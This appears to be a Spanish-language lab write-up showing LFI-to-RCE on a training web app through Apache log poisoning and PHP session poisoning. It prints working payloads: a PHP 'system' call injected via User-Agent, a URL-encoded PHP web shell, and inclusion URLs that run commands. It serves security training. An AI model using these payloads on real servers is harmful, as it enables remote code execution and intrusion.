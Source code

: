 # LFI: Log Poisoning -> RCE 👩‍💻

El laboratorio que vulneraremos es

![Web.PNG](./assets/07-Septimo/01-Web.PNG)

* **(1)**: Tenemos un `PHPSESSID` con el cual podemos intentar un PHP Seesion Poisoning. 🦴
* **(2)**: Apunta a un recurso con el cual podremos intentar leer los **logs** 📃

---

Cambiamos la cabecera **`User-Agent`** con `<?php system('pwd'); ?>`

<p align="center">
    <img src="./assets/07-Septimo/02-Request.PNG">
</p>

* Inyectamos el código **PHP** para intentar ejecutarlo al leer el archivo del log


Leemos el archivo `/var/log/apache2/access.log` (Aquí se almacenan los logs del servidor web)

<p align="center">
    <img src="./assets/07-Septimo/03-pwd.PNG">
</p>

---

Ahora listamos el contenido de la raiz `/`

<p align="center">
    <img src="./assets/07-Septimo/04-ls.PNG">
</p>

Leemos nuevamente el archivo `/var/log/apache2/access.log`

<p align="center">
    <img src="./assets/07-Septimo/05-ls.PNG">
</p>

---

Ahora aplicaremos `PHP Session Poisoning` para leer el archivo **flag**

* **URL:** `http://<IP Web>/index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>`

Después de esto, 'guardaremos' un script en php urlencodeado, para ejecutar comandos:

* **URL:** `http://<IP Web>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`

Por último leemos el archivo `flag`

* **URL:** `http://<IP Web>/index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>&cmd=cat /[Flag].txt`

<p align="center">
    <img src="./assets/07-Septimo/06-flag.PNG">
</p>